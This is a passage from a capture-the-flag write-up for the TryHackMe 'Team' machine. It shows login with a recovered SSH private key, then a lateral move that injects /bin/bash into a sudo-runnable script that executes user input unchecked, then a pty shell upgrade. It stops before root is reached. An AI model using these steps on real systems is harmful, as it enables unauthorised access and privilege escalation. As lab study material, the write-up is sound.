 ```sh

┌──(bc-here㉿BC-Here)-[~/CTF/THM/Team]
└─$ sed -i 's/^#//' id_rsa

┌──(bc-here㉿BC-Here)-[~/CTF/THM/Team]
└─$ ssh -i id_rsa dale@team.thm
Last login: Mon Sep 30 23:03:56 2024 from 10.11.96.92
dale@TEAM:~$
```

## Getting Root
```sh
dale@TEAM:~$ sudo -l

Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks

```
- Lets Check `/home/gyles/admin_checks`

```sh
dale@TEAM:/home/gyles$ cat admin_checks
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"

```

- **Pivoting**
```sh
dale@TEAM:/home/gyles$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: name
Enter 'date' to timestamp the file: /bin/bash
The Date is now
python -c "import pty; pty.spawn('/bin/bash')"
python3 -c "import pty; pty.spawn('/bin/bash')"
gyles@TEAM:/home/gyles$ cat .bash_history
```
